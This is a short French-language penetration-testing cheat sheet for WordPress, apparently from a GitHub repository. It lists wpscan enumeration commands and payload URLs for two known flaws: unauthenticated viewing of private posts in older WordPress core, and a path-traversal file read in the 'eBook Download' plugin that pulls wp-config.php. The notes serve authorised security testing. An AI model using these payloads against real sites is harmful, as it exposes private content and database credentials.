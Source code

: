 # Wordpress

## Prise d'informations

* Enumérer rapidement sur un site Worpress :

```
wpscan --url <URL>
```

* Scanner plus en détail un site Wordpress :

```
wpscan --url <URL> -e
```

* Vérifier qu'il n'existe pas de pluggins vulnérables :

```
wpscan --plugins-detection aggressive --force --url <URL>
```

## Vulnérabilités connues

#### WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts

Vulnérabilité permettant de lire des posts cachés aves l'URL suivante :

```
http://domain.com/?static=1
```

#### LFI avec le plugin "eBook Download"

```
http://localhost/wordpress/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```
